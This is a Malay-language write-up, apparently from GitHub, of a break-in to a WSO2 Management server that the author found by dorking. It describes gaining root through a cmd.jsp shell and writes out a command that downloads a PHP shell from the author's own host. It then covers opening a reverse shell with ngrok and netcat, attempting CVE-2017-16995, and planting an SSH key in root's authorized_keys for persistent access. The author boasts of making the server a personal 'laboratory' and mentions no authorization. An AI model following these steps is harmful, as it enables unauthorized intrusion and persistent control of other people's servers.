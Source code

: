 # Write-Up [WSO2 Management]

Assalamualaikum, so harini nak buat writeup dari PoC [WSO2 Management] kepada SSH(berserta Privilege Escalation).

Disini saya telah berjaya meng-eksploitasi satu urls dengan menggunakan teknik dorking.

![Screenshot_251](https://user-images.githubusercontent.com/21289340/233838651-b3cd945d-9286-4ab6-b4fe-d4181f012cfc.png)

Setelah saya berjaya meng-eksploitasi urls tersebut, saya terus mencuba mendapatkan user dengan menggunakan `whoami`.
Disini mungkin agak sedikit "LUCKY" apabila output yang tampil adalah "root".

![Screenshot_4](https://user-images.githubusercontent.com/21289340/233838875-c2a7ec20-1738-467d-9932-51794a527bfd.png)

Seperti biasa, saya akan mencuba untuk melakukan pencarian untuk mencari aplikasi yang tersedia seperti php, python, apache2, nginx, perl, wget dan curl.
Sebelumnya php dan apache2 tidak tersedia di dalam server. Kemudian saya cuba untuk menginstall secara direct melalui basic unix command disebabkan privilege yang telah ada iaitu 'root', di bawah ini adalah output ditampilkan setelah saya berjaya menginstall package tersebut.

![Screenshot_253](https://user-images.githubusercontent.com/21289340/233839227-11762819-8976-4c4d-bc08-20a7ba9787bb.png)
![Screenshot_243](https://user-images.githubusercontent.com/21289340/233839297-0b89acab-46b6-4613-87ae-6b9de6d89f8f.png)

Seterusnya, saya ingin membuat back-connect, kerana shell yang tersedia iaitu "cmd.jsp" tidak memuaskan dan mungkin jalan kerja terlalu banyak.
Lalu saya cuba memanggil php shell dengan menggunakan 'wget myshell.my/raw.txt -O corntoll.php'.
Dibawah ini adalah tampilan setelah saya berjaya memanggil file php tersebut.

![Screenshot_21](https://user-images.githubusercontent.com/21289340/233839663-58ee9510-a961-4cc2-bc8c-c2a0578e0724.png)

Dan dibawah ini adalah tampilan setelah saya berjaya mengexecute corntall.php

![Screenshot_254](https://user-images.githubusercontent.com/21289340/233839590-01632a7d-dc0e-4bbd-a97d-d201aaae1a31.png)

Seterusnya, saya terus membuat back-connect/reverse php shell tersebut.

![Screenshot_9](https://user-images.githubusercontent.com/21289340/233839749-e4bccb03-9c77-4ac1-b215-eaf3cec304da.png)

Kemudian, saya listen seperti biasa menggunakan ngrok dan netcat.

![Screenshot_8](https://user-images.githubusercontent.com/21289340/233839800-99cfcaa3-3708-4872-b962-15c25c72f0f4.png)

Lalu, back-connect/reverse telah berjaya dilakukan.

![Screenshot_255](https://user-images.githubusercontent.com/21289340/233839892-6b79cd2f-5895-4893-808f-fcd58adbc4bc.png)

Disini saya memanggil fully interactive TTYs menggunakan Python3. Seterusnya, saya cuba mendapatkan user.

![Screenshot_11](https://user-images.githubusercontent.com/21289340/233840096-c8307a44-ab63-471e-a823-a2ff851d9f58.png)

Saya cuba untuk mendapatkan akses 'ROOT' daripada back-connect dengan cara mengeksploitasi CVE-2017-16995.

![Screenshot_22](https://user-images.githubusercontent.com/21289340/233840258-926a6fc8-2e39-4bc6-b3f3-35aa04bf1623.png)

Tetapi ianya gagal setelah saya compile dan cuba untuk meng-eksploitasi kernel tersebut. Mungkin disebabkan version kernel server dan CVE agak berbeza satu angka?

![Screenshot_12](https://user-images.githubusercontent.com/21289340/233840359-1d9558f7-faa7-4a2b-9205-5ea091398a61.png)

Disini saya juga telah mencuba membuat 'chown' dan 'chmod +x' untuk memastikan CVE tersebut mendapatkan akses permission yang lengkap namun gagal.

![Screenshot_13](https://user-images.githubusercontent.com/21289340/233840470-60d57594-b262-499a-9daf-4b53210b1082.png)
![Screenshot_14](https://user-images.githubusercontent.com/21289340/233840477-807c9c8c-6342-4765-a23d-5b8df941dff3.png)

Jadi, saya cuba untuk menggunakan cara lain dimana saya telah mendapat idea untuk menggunakan SSH. Disini saya membuat semakan sama ada aplikasi SSH sedang berjalan ataupun tidak.

![Screenshot_247](https://user-images.githubusercontent.com/21289340/233840715-20e3c028-11ec-4d67-a65f-63c7a5e546b2.png)
![Screenshot_249](https://user-images.githubusercontent.com/21289340/233840646-9005c029-ff75-499b-a8ad-1b72e722f25a.png)

Ianya menunjukkan bahawa SSH tidak active, jadi saya mengaktifkan aplikasi SSH tersebut seperti yang dibawah.

![Screenshot_256](https://user-images.githubusercontent.com/21289340/233840612-69994d7e-1524-4b33-bdbd-02bb88ceef58.png)

Setelah servis SSH aktif, saya terus cuba login tapi gagal dengan error yang ditampilkan dibawah.

![Screenshot_257](https://user-images.githubusercontent.com/21289340/233840786-fc5f1aa2-d87f-46e2-abfd-0d84b9e32757.png)

Jadi, saya cuba untuk generate ssh-key sendiri dan menambah public key tersebut ke file '/root/.ssh/authorized_keys' seperti yang ditampilkan. 

![Screenshot_16](https://user-images.githubusercontent.com/21289340/233840923-3a8981d8-6b47-441f-b3a2-934018ec87d2.png)

Lalu, saya terus cuba untuk login daripada console Powershell.

![Screenshot_17](https://user-images.githubusercontent.com/21289340/233840965-ef26b465-0493-47d0-90eb-e3a0cd466a76.png)

Apabila melihat login SSH telah berjaya, saya terus melakukan semakan user menggunakan 'whoami'.

![Screenshot_18](https://user-images.githubusercontent.com/21289340/233841040-f98a4bd4-a159-462b-bc56-2841b967ef4c.png)

"BOOM!" root. Bukan sahaja akses root, malah saya juga telah mendapatkan akses direct kepada SSH.
Sekarang ianya telah menjadi LABORATORY peribadi saya. Server itu juga telah dipointing kepada sub-domain saya sendiri.

Setelah melakukan penyiasatan dengan lebih lanjut, saya mendapati bahawa server tersebut menggunakan Tomcat Apache, dimana ianya menggunakan Java.
Disitu, 'cmd.jsp' telah di eksploitasi untuk mendapatkan akses SSH root. 

BIG THANKS TO PARI MALAM
